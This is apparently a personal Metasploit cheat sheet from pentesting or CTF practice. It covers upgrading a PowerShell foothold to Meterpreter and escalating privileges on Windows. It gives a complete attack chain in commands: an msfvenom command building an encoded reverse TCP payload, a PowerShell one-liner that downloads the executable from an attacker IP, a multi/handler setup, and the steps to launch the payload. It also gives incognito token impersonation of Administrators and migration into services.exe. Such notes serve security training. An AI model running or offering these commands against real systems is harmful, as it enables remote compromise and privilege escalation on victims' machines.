 ```yaml
---
title: Metasploit
description: Metasploit is a powerful penetration testing and hacking framework designed to secure networks, services, and applications by identifying and exploiting vulnerabilities
---
```


Metasploit can be used in countless ways.  These are just a few things I found interesting and helpful along the way.

## Upgrade Powershell to Metrepreter

If you are able to land a standard powershell connection from the victim machine, you can upgrade the shell to a meterpreter shell.

This payload generates an encoded x86-64 reverse TCP meterpreter payload.
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.57.139 LPORT=1224 -f exe -o upgradeShell.exe
```

After creating this payload, download it to the machine using the same method in the previous step:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.57.139:80/upgradeShell.exe','upgradeShell.exe')"
```
Before running this program, ensure the handler is set up in Metasploit:

```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.6.57.139 set LPORT 1224 run
```
Once this is running, enter this command to start the reverse shell

```powershell
Start-Process "upgradeShell.exe"
```

## Windows Escalation Technique

### SeDebugPrivilege / SeImpersonatePrivilege

If these two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled, wec can use the incognito module in metasploit to exploit this vulnerability.

```bash
use incognito 
```
**You may need to use the `load incognito` command if the previous command doesn't work.**

Check which tokens are available:
```bash
list_tokens -g
```
Use this command to impersonate the Administrator's token if it is available:
```bash
impersonate_token "BUILTIN\Administrators"
```
Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do)

The safest process to pick is the services.exe process. First, use the `ps` command to view processes and find the `PID` of the services.exe process. 

Migrate to this process using the command
```bash
migrate PID-OF-PROCESS
```

